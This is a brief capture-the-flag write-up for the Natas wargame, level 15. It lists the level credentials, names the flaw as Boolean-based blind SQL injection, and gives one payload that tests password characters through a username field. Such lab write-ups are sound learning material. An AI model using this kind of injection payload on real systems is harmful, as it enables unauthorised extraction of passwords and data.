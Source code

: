 # Username
natas15
# Password
SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
# Web vulnerability
Boolean-based blind SQL injection
# Method of solve
Identify that the SQL query will return either True or False, then craft a SQL payload which will return True or False and includes the name of a valid user (natas16).
```
natas16" AND SUBSTRING(password,1,3)='hPk' -- -
```
